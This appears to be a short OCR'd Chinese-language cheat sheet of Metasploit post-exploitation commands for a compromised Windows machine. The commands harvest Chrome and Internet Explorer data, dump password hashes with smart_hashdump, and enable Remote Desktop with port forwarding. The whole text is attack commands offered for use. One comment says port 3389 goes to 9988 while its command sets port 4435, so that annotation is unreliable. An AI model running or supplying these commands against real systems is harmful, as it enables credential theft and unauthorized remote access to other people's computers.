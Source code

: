 ●  

●  浏览器 chrome

●  **run post/windows/gather/enum_chrome**

●  **run post/windows/gather/enum_ie**

●  

●  run post/windows/gather/smart_hashdump  hash 获取

●  run post/windows/manage/enable_rdp #开启远程桌面

●  run post/windows/manage/enable_rdp FORWARD=true LPORT=4435 #将3389端口转发到9988

●  

●  
